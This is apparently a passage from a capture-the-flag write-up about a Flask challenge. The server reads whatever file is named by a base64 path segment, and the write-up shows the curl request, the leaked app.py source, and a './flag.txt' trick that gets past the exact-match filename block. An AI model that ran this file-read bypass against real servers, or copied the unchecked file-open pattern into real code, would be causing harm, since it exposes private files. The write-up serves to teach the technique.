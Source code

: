 But an error occured when I'm executing a command like this. If you check an url when you connected first, file name sent in base64. so if we wanna connect to debug.html, we have to connect to `ZGVidWcuaHRtbA==`.

```zsh
❯ curl -i http://ctf.b01lers.com:5115/ZGVidWcuaHRtbA==
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.16
Date: Mon, 20 Mar 2023 03:20:59 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 278
Connection: close

<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>debug</title>
</head>
<body>
    testing rendering for flask app.py
</body>
</html>
~
❯
```
Finally we got the result of it like this and then we're gotta check an app.py now.

```python
from base64 import b64decode
import flask

app = flask.Flask(__name__)

@app.route('/<name>')
def index2(name):
    name = b64decode(name)
    if (validate(name)):
        return "This file is blocked!"
    try:
        file = open(name, 'r').read()
    except:
        return "File Not Found"
    return file

@app.route('/')
def index():
    return flask.redirect('/aW5kZXguaHRtbA==')

def validate(data):
    if data == b'flag.txt':
        return True
    return False


if __name__ == '__main__':
    app.run()
```
I got the code of app.py via filename called `YXBwLnB5`. we can know that the flag is in flag.txt via code but server is blocking the character called flag.txt but it doesn't matter because we can bypass via the current path mark like `./flag.txt`
